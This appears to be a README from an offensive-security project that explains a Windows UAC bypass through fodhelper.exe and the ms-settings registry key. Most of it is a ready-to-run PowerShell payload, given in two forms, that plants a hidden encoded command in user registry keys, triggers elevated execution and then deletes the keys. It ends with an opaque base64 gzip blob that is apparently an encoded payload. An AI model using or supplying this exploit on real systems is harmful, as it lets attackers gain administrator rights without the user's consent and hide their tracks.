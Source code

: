 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```



```
H4sIAP+TIWYC/4WPsW7CMBRFf+XJymoydERdmhYCbYESFRYvjn1DADexbLdJ+XpIBFLLAMub7r3nvGg0nm7nSJfPH+/tstk/Mls3cL6EMQO0IN5QSXxWL7pTTYi/tFD09Gul98RRKYp+xjI/rHfqbZev2dBhQ1JrYulr8imyugiNdBCJORXgxaCUag8nso4g5haV+NenWFN0JUVxcW/2y3OPELbVxovk263g+iV2xrFuoqj1CWrhuseGWZAu8MwAlrinh56gYRBwz51dhG7H/zr1lSNEJGlObQEAAA==
```

